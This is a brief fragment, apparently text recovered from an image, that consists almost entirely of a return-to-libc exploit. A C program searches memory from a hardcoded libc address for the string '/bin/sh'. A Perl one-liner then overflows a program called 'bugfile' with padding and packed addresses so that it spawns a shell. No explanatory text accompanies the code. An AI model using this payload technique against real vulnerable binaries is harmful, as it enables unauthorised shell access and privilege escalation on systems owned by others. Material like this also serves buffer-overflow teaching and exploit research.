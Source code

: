 ```c
int main(int argc, char **argv) {
        long shell;
        shell = 0x40058ae0;
        while (memcmp((void*)shell, "/bin/sh", 8)) shell++;
        printf("\"/bin/sh\" is at 0x%x\n", shell);
}
```

`perl -e 'system "./bugfile", "AAAAAAAAAAAAAAAA\xe0\x8a\x05\x40\xe0\x91\x03\x40\xf9\xbf\x0f\x40"'`